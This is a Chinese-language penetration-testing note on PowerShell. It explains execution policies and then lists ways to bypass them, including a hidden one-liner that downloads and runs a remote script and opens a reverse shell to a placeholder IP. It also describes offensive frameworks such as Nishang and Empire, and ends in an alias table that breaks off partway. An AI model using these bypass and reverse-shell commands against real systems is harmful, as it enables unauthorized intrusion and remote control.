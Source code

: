 - Set-ExecutionPolicy <policy name>
可以通过上面命令改变PowerShell的执行策略。

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本， 比如下面这三种。

1. 绕过本地权限执行
上传xx.ps1至目标服务器，在CMD环境下，在目标服务器本地执行该脚本，如下所示。
```
PowerShell.exe -ExecutionPolicy Bypass -File xx.ps1
```

2. 本地隐藏绕过权限执行脚本
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile File xx.ps1
```

3. 用IEX下载远程PS1脚本绕过权限执行
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NonI -NoProfile iex (New-Object Net.WebClient).DownloadString("xxx.ps1");Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

上述参数的说明，如下
- `ExecutionPolicy Bypass`绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则
- `WindowStyle Hidden`　隐藏窗口
- `NoLogo`　启动不显示版权标志的PowerShell.
- `NonInteractive (-Nonl) `　非交互模式，PowerShell不为用户提供交互的提示。
- `NoProfile (-NoP) `　PowerShell控制台不加载当前用户的配置文件。
- `Noexit`　执行后不退出Shell。这在使用键盘记录脚本时非常重要。


## 常用的PowerShel攻击工具有以下这几种

- `PowerSplit`　这是众多PowerShell攻击工具中被广泛使用的PowerShel后期漏洞利用框架，常用于信息探测、特权提升、凭证窃取、持久化等操作。

- `Nishang`　基于PowerShell的渗透测试专用工具， 集成了框架、脚本和各种Payload,包含下载和执行、键盘记录、DNS、 延时命令等脚本。

- `Empire`　基于PowerShel的远程控制木马，可以从凭证数据库中导出和跟踪凭证信息，常用于提供前期漏洞利用的集成模块、信息探测、凭据窃取、持久化控制。

- `PowerCat`　Powershell版的NetCat, 有着网络工具中的"瑞士军刀”美誉，它能通过TCP和UDP在网络中读写数据。通过与其他工具结合和重定向，可以在脚本中以多种方式使用它。




# 获取 PowerShell Alias一覧

```
PS>  gal　或者   PS>  Get-Alias
```

`Gmeek-html<img src="https://linuxhint.com/wp-content/uploads/2022/01/create-powershell-alias-01.png">`

## PowerShell Alias一覧

|PowerShell Alias|PowerShell Command|例子|
|---|---|---|
|**命令**|**Command**|**⇣⇣⇣⇣⇣**|
|gcm 👙 |  Get-Command|例：`Get-Command Get-*`　查找所有以 Get- 开头的 cmdlets|
|icm|  Invoke-Command|
|shcm|  Show-Command|
|trcm|  Trace-Command|
|**别名**|**Alias**|**⇣⇣⇣⇣⇣**|